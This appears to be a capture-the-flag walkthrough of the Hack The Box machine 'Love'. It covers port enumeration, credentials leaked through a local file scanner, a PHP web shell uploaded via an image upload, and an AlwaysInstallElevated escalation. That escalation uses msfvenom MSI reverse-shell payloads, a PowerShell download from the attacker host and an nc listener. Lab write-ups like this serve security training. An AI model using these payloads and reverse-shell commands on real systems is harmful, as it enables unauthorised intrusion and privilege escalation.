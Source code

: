 # Love

IP: ## 10.10.10.239

````bash
echo "10.129.128.17 love.htb" >> /etc/hosts 
````

## nmap
|Port|service|
|---|---|
|80|http|
|135|msrpc|
|139|netbios-ssn|
|443|https|
|445|smb|
|3306|mysql|
|5000|upnp|

Lets start with the website. 
we can see it a voting website using php.
like try do some enumlation on the site. 

````bash
gobuster dir -u http://love.htb -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -t 50
````

We find */admin* which ask for creds we do not have yet.

lets try the other ports
on port 443 we get access forbidden. 

looking at the cert of the https site we see a subdomain 
staging.love.htb and username roy@love.htb.
So we add the the domin to /etc/hosts. 
I try with https but still got forbidden, but on http we get a file scanner. 
Lets see if we can 
I tried scanning itself just for fun as it was forbidden to us.  
http://127.0.0.1:5000

creds: 
Vote Admin Creds 
admin: @LoveIsInTheAir!!!! 

Let try login with the cred on love.htb/admin and we got access. 
I can see under user setting we have a the options to upload a file as our images, lets see if it can be exploited.
At the buttom we see it created by sourcecodester.com and the system is called voting-system-using-php.html time to google for exploit. 

https://www.exploit-db.com/exploits/49445
But sadly the exploit did not work :C 
Guess we have to do it the manual way. 

I tried my go to reverse shell by pentestmonkey, but did not work
I got hinted at using:
[shell](https://github.com/ivan-sincek/php-reverse-shell/blob/master/src/minified/simple_php_web_shell_get__mini_v2.php)

we got access as user, get the flag and lets try get admin

## admin 
Scan the system with WinPEAS and we learn that AlwaysInstalledElevated feature is used to install MSI packages, lets create a shell with msfvenom and get admin. 

````bash
msfvenom -p windows/x64/meterpreter/reverse\_tcp LHOST=10.10.14.200 LPORT=8856 -f msi -o "trustme.msi"
````

Now open msfconsole to catch the rev shell.

````bash
msfconsole -q
use exploit/multi/handler
set payload windows/x64/shell_reverse_tcp
set lhost 10.10.14.200
set lport 8765
````

Upgrade to powershell and download the file 
````powershell
Powershell.exe
Invoke-WebRequest -URI http://10.10.14.200:8000/trustme.msi -OutFile trustme.msi
````
and still just user.. 

````bash
msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.10.14.200 LPORT=8856 -f msi -o "trustme.msi"
````

On another machine 
````bash
nc -lvnp 8856
````
and I got root. 

Hash -> aab42ca009fed69fa5ee57c52cf5bcf1

